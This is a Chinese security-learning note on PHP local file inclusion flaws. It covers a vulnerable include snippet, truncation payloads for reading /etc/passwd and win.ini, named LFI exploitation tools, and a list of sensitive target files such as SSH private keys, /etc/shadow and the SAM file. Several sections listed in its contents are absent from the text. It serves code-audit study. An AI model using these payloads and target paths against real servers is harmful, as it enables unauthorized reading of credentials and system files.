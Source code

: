 ```yaml
---
title: "[代码审计]PHP篇:文件包含漏洞"
desc: TonyD0g
date: 2022-01-23 16:18:35
tags: 代码审计
---
```

<font size=4 >

###### [版本0x2] 
###### 2022-01-26

## 文件包含
1.漏洞案例
2.利用工具
3.常见包含路径
4.session包含
5.日志文件包含
6.远程文件包含
7.PHP伪协议
8.文件包含漏洞修复

## 1.漏洞案例:

有限制的本地文件包含:
```
<?php
include($_GET['file'].".php");
?>
```

#### %00截断:(有机会测试一下各个版本是否有效)
?file=C://Windows//win.ini%00 
**（window，magic_quotes_gpc=off，网络上盛传PHP小于5.3.4有效，未完全进行测试，亲测 PHP 5.2.17有效，PHP-5.3.29-nts无效）**

?file==../../../../../../../../../etc/passwd%00 
**(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)**

#### 路径长度截断：
?file=../../../../../../../../../etc/passwd/././././././.[...]/./././././. 
**(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)**

#### 点号截断：
?file=../../../../../../../../../boot.ini/.........[...]............
**(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)**


## 2.利用工具:(个人没用过，有机会试试)
文件包含漏洞利用工具
LFISuite：https://github.com/D35m0nd142/LFISuite
LFI Scan & Exploit Tool：https://github.com/P0cL4bs/Kadimus/

## 3.常见包含路径:
#### Windows:
```
C:\boot.ini //查看系统版本
C:WindowsSystem32inetsrvMetaBase.xml //IIS配置文件
C:Windowsrepairsam //存储系统初次安装的密码
C:Program Filesmysqlmy.ini //Mysql配置
C:Program Filesmysqldatamysqluser.MYD //Mysql root
C:Windowsphp.ini //php配置信息
C:Windowsmy.ini //Mysql配置信息C:Windowswin.ini //Windows系统的一个基本系统配置文件
```
#### Linux:
```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数
```

## 学习来源:
```
公众号Bypass 《PHP代码审计入门笔记》

《Web安全原理分析与实践》   李江涛
```
</font>